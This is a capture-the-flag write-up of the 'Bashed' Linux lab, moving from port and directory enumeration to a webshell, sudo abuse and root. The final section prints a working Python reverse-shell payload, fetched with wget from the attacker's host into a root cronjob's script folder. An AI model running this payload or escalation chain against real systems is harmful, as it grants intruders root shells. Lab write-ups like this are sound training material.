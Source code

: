 ## Bashed 

### Lab Details 

- Difficulty: Easy 
- Type: Linux

#### Tasks

Q1: How many open TCP ports are listening on Bashed?
 - `nmap target_ip -sT -A -T4`

Q2: What is the relative path on the webserver to a folder that contains phpbash.php?
 - use ffuf to enum the path 
 - `ffuf -u http://target_ip/FUZZ -w /usr/share/wordlists/dirb/big.txt`
 ```
 ...
 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 317ms]
    * FUZZ: dev
 ... 
 ```
 - webshell located at:  http://target_ip/dev/phpbash.php

Q3: What user is the webserver running as on Bashed?
 - `www-data@bashed`

Q4: Submit the flag located in the arrexel user's home directory.
 - cat /home/arrexel/user.txt

Q5: www-data can run any command as a user without a password. What is that user's username?
 - sudo -l -> scriptmanager

Q6: What folder in the system root can scriptmanager access that www-data could not?
 - ls -la / 
 ```
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 scripts
 ```
Q7: What is filename of the file that is being run by root every couple minutes?
 - `-u` flag of sudo allows the a command to be run as another user on the target 
 - `sudo -u scriptmanager ls -la /scripts` can be run to list the content in /scripts directory
 - below is the result of running the ls command at different times
 ```
 -- first run
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:45 test.txt

 -- second run 
 www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
 total 16
 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
 drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
 -rw-r--r-- 1 root root 12 May 15 05:48 test.txt
 ``` 
 - theres a difference in modify date of test.txt

Q8: Submit the flag located in root's home directory.
- since test.py is getting executed as cronjob and scriptmanager has read/write access over /scripts
- a reverse shell can be loaded to /scripts and it will be executed when the next cronjob runs  
- below is test.py 
 ```
 import socket,subprocess,os
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 s.connect(("target_ip",9002))
 os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
 os.dup2(s.fileno(),2)
 import pty
 pty.spawn("sh")
 ```
- host test.py file on local using `python3 -m http.server` 
- fetch from local `sudo -u scriptmanager wget http://10.10.14.27:8000/ -O /scripts/test.py` 
- run netcat to catch the reverse shell with root access 

#### Lesson Learned
